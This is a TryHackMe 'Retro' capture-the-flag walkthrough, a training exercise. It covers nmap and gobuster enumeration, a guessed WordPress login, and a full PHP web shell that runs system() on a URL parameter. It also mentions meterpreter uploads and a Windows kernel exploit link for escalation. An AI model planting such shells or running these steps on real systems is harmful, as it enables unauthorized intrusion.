 ```yaml
---
title: Retro
date: 2022-07-05 18:32:00 -0500
categories: [Walkthrough, Tryhackme]
tags: [nmap, gobuster, wordpress]
---
```


TryHackMe CTF Box - New High Score!

[https://tryhackme.com/room/retro](https://tryhackme.com/room/retro)

![0xskar](/assets/retro.jpg)

* * *

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

* * * 

##  Nmap Scans

- initial ``nmap -Pn -sS -p- 10.10.85.75 -vvv``
- secondary ``nmap -sC -sV -p80,3389 10.10.85.75``

##   Port 80

```shell
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
```

##   Port 3389

```shell
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-04T16:21:57
| Not valid after:  2023-01-03T16:21:57
| MD5:   8d0b 3ecc 83b6 d988 6316 15b1 7479 0dc7
| SHA-1: b904 cda6 d6c1 1824 98f2 1bda ff45 966f ff10 2f9b
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQSXN76AiHMrBMfQDmsVszbDANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMjA3MDQxNjIxNTdaFw0yMzAxMDMxNjIx
| NTdaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAnTUxUR3NlTd/EfOaRjv2aZU4K9uAMlOKeUxcWnakWVSxUAoDW2el
| KKFbmCJG36CSSun6/ixtiPgYNUJOMIusbyOz2K2d0joQPiyCqO8sfqFEeAKeak5I
| rGS/bjhvqXNpghCNO4+SHoS64jTyqYpgWhHFWSKjyO4Ja0qLxltuqX1jt2KxNsWy
| VynJUXBPi3wd0cqqFoktixdyFVc+aFck32x5kdREcT/lg6Op2hpyvs9EytS5ZqNv
| iVc7pxJexPvfhORqR1NXaSCzJhsljL0UaqFr1H8lVOwosAfU3HQoPnmD8kgpiaOx
| 4tyDZDWj4755d2+dUL3bF3eJ0VaraAdzlwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBACtAy3coYy5G
| 2uoxwW46+u8O72GJs9+Qfiiht2dUXdbuWSx5xLD7/tsDGW8TEgm/rZj1NXUWUe0o
| 8DzbpjaotEesF+gkJFkQmik7yEKE0mKVkrcNjVi3XzXhzFJSy2Hg3x8TODCehEIa
| TDZOjg51f3airpKrGigNYGfvUmrCFC4Gkw3qFZ6DArUA2k36zusZfvTphzvuam05
| RSF5kL99vnBr//8DO+7BmPPOOCIA4UwTp4tWilox5/9CXbogdyxOyst+Ouofu/0n
| 9ktJO4PYBnoBjKiEK0QcAeIleZ3SYAGNfsDPc/vJHM9uUarlQX89Xos4bvFuJ4wU
| XtdQmKlzGCw=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-07-05T16:28:10+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2022-07-05T16:28:07+00:00
```

* * * 

##  Web Server Enumeration

- ``gobuster dir -u http://10.10.85.75/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- we find a webpage we can visit http://10.10.85.75/retro/ lets enumerate further
- ``gobuster dir -u http://10.10.85.75/retro/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- its a wordpress site. lets run ``wpscan``
- ``wpscan --url http://10.10.85.75/retro/ -v --api-token my api token -e vp``
- XML-RPC is enabled we can use [WPxploit](https://github.com/relarizky/wpxploit/blob/master/README.md)
- http://10.10.85.75/retro/wp-login.php Need to find a username
- checking out the main page we can see Wade is an author.
- One of his first posts is a hint? ~~"I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down."~~ parzival? Lol we're in...

* * * 

##  Wordpress

Edit the theme and lets inset this code to get some system information

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

* * * 

##  Windows

We can login on RDP Client with credentials Wade/parcival and get the first flag

- The machine is a Windows 2016 server.
- upload meterpreter shell and try to get root
- upload winpeasx64 and scan
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- exploit!
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213

* * * 


##   Answer the questions below

**A web server is running on the target. What is the hidden directory which the website lives on?**

- /retro/

**user.txt**

![0xskar](/assets/retro03.png)

**root.txt**

![0xskar](/assets/retro04.png)

* * * 


